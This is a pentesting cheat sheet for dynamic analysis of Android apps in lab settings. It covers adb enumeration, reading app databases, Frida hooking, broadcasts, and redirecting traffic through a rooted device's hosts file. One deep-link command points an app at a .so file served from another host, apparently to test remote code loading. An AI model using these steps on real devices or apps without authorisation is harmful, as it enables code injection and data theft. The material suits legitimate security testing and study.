

#mobile #android #frida #dynamic-analysis

# Android Dynamic Analysis

Related: [static-analysis](static-analysis.md) · [automation](automation.md) · [web-requests](../Web/web-requests.md) · [login-brute-forcing](../Passwords/login-brute-forcing.md)

## Contents
- [Enumerate Running Apps](#enumerate-running-apps)
- [Local Storage](#local-storage)
- [Deep Linking](#deep-linking)
- [Frida Instrumentation](#frida-instrumentation)
- [Broadcasts / Intents](#broadcasts--intents)
- [HTTP/HTTPS Interception](#httphttps-interception)

A typical pass through an app moves top-to-bottom through these sections:



## Enumerate Running Apps
```bash
adb shell "dumpsys activity activities"
```
List running package names/activities (as root).

```bash
adb shell am start -n com.hackthebox.myapp/.ActivityName --es filename "filename.txt"
```
Launch a specific activity with an extra parameter.

```bash
adb logcat '*:D' | grep 'Debug note: '
```
Read and filter app debug logs.

## Local Storage
```bash
adb shell
sqlite3 /data/data/com.hackthebox.myapp/databases/database.db
```
Inspect app databases (`.tables`, `select * from tablename;`).

## Deep Linking
```bash
adb shell am start -W -a android.intent.action.VIEW -d "app://myapp?url=http://192.168.5.8:8000/filename.so"
```
Trigger a deep link to test intent/URL handling[^1].

## Frida Instrumentation
```bash
adb push frida-server /data/local/tmp/ && adb shell chmod +x /data/local/tmp/frida-server && adb shell /data/local/tmp/frida-server &
```
Deploy and run frida-server on the device.

```bash
frida -U -l snippet.js -f com.example.myapp
```
Hook a method with a Frida script.

## Broadcasts / Intents
```bash
adb shell am broadcast -a "android.intent.action.BATTERY_LOW" --es "Is_on" "yes"
```
Send a custom broadcast with extra data.

## HTTP/HTTPS Interception

> [!IMPORTANT]
> `-writable-system` and `adb root && adb remount` only work on an AOSP/no-Play-Store emulator image or an already-rooted physical device — Play Store-enabled AVDs and unrooted retail devices will reject the remount.

```bash
emulator -avd Pixel_3a_API_34 -netdelay none -netspeed full -dns-server 8.8.8.8 -writable-system
```
Start an AVD with a writable system (to install a CA / edit hosts).

```bash
adb root && adb remount && adb shell mount -o rw,remount /system
adb shell 'echo "192.168.5.183 www.chatapp.com" >> /system/etc/hosts'
```
Redirect a domain to your proxy via the device hosts file.

[^1]: `-W` blocks until the launch completes and prints timing/result info — useful to confirm the intent actually resolved to an activity rather than being silently dropped.
